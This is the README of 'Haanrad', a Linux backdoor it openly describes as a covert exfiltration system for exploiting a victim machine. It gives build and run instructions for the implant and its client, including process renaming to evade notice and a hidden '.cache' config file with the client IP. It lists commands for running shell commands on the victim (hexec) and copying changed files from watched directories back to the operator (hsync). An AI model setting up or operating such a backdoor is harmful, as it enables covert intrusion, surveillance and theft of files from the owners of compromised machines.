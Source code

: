 #Haanrad
<b> FULL DISCLOSURE: THIS THING CAN DO BAD THINGS. UNLESS UR A BADMAN OR BATMAN, ITS STRONGLY ADVISED NOT TO BE USED </b>

Haanrad is a backdoor exfiltration system that allows a user to covertly exploit the installed system
haanrad is deployed to. Haanrad can be configured in numerous different ways and is designed to be
tolerant in most systems and adjust to the networks behavior as perceived by the victim machine in order
to "blend in". See the `Features` Section for details on functionality

#Setup

##Prerequisits
You must have cmake and gcc installed along with `libdnet` and `libpcap` development libraries installed in order to compile
Haanrad and the client. Note that Haanrad and the client will only work on the Linux based kernel and possibly some
versions of Mac or BSD

##Installation
Execute the following commands

1. clone the project and `cd` into the project root
2. Execute the following command `cmake .`
3. Then execute `make` if you are on Linux. This will generate all required programs in the project root under the `/bin` folder

##Usage
Run Haanrad with the following command from within the `/bin` folder
```
./haanrad -c <ipofclient> [--DEBUG] [--DOF] [--HINT] [-t <timetick>] [-h <historylength>]
```
The parameters are as follows:

| Parameter | Purpose                                                                                | Required ? | Config File Support ? | Default                          | Example      |
| --------- | -------------------------------------------------------------------------------------- | ---------- | --------------------- | -------------------------------- | ------------ |
| -c        | Give the dot notation IP of the client                                                 | Yes        | Yes                   | N/A                              | -c 127.0.0.1 |
| -t        | Give time cycles of Haanrad in milliseconds, lower values will make Haanrad run faster | No         | Yes                   | 100                              | -t 450       |
| -h        | Set History Length of how many packet Haanrad will store                               | No         | Yes                   | 100                              | -h 200       |
| --DEBUG   | Get Debug Console Out                                                                  | No         | No                    | Disabled                         | ---DEBUG     |
| --DOF     | Set Haanrad to use default name on rename failure                                      | No         | No                    | Previous name is used on failure | --DOF        |
| --HINT    | Append `-bd` to the process name chosen for Haanrad                                    | No         | No                    | Not Appended                     | --HINT       |
 
Run the client with the following command from within the `/bin` folder
```
./client [--DEBUG]`
```
The parameters are as follows:

| Parameter | Purpose                             | Required ? | Config File Support ? | Default  | Example |
| --------- | ----------------------------------- | ---------- | --------------------- | -------- | ------- |
| --DEBUG   | Print Debug Information To Console  | No         | No                    | Disabled | --DEBUG |
 
 
###Interactive Mode
Upon Haanrad connecting to the client, interactive mode will enable. Making a number of commands available on the client. Each command has two layers,
a client specific command, and a haanrad specific command, followed then by the haanrad command parameter. The command structure is as follows:
```
<clientcommand> <haanradcommand> <haanradparam>
```
The following client commands are available:

| Command | Purpose                          |
| ------- | -------------------------------- |
| send    | Send A Command To Haanrad        |
| check   | Check For Responses From Haanrad |

The `check` command in the above table does not have any haanrad commands or haanrad params excepted as check is used specificaly for checking
for any new responses from Haanrad. `send` though has several options available. They are:

| Command | Purpose                                      | Parameter                          |
| ------- | -------------------------------------------- | ---------------------------------- |
| hexec   | Execute a terminal command on Haanrad        | Command to be executed             |
| hlisten | Create/Remove a listener of a directory      | Dir to Create/Remove listenr       |
| hsync   | Create/Remove a sync listener of a directory | Dir to Create/Remove sync listener |

Note the difference between the `hlisten` and `hsync` commands. Executing an `hlisten` will cause Haanrad to setup an inotify listener
in the parameter passed directroy. When an event occurs in this directory, a response will be sent from Haanrad back to the client. Using
`hlisten` this is then all that will happen. The client will simply be notified that an event occurred. If the `hsync` command is used though,
the client will be both notified of the event occurring and will also be sent a copy of the changed file. 

During an `hsync`, the client will download and write the file to the local `sync` directory, that will be generated if it does not previous exist. 
The `sync` directory is orgnaized to emulate the root path of the victim machine thus any synced files will have their folder structure recreated 
within the `sync` folder to emulate that of the victim machine.

Additionaly to the above mentioned commands a number of house keeping commands are available during response failure from Haanrad. The below can be
useful when a transfer fails and the client's buffer is left in an unstable state. Note these command are independent to anything previously
mentioned and do not run under the `send` or `check` client commands. See the examples for clarification.

| Command  | Purpose                                                  |
| -------- | -------------------------------------------------------- |
| bufcheck | Prints the current content of the Client receive buffer  |
| bufclear | Clears the current contents of the Client receive buffer |

Some command examples:
```
# Execute ls on the victim machine
send hexec ls

# Setup a sync listener for directory /haanrad/secret/info
send hsync /haanrad/secret/info

#Clear the client buffer
bufclear

#Print the client buffer
bufcheck
```

###Config File Support
Haanrad supports some of the specified options to be declared within a configuration file. There is a very strict orientation
in how this file must be written in order to be picked up by Haanrad. The configuration file is only read at startup
and is never referred to afterwards. In order for the config file to be detected by haanrad it must be located in the same
location as the `haanrad` binary and named `.cache`. Settings are entered in the format of <key>=<value> with the key
being the supported flag listed above without the preceding dash (`-`). An example configuration file might look like this
```
c=127.0.0.1
t=150
```
Note there is no spacing at the beginning or end of the file, and no comments are accepted within the file. Invalid formatting
of the file may cause Haanrad to even crash and not load at all


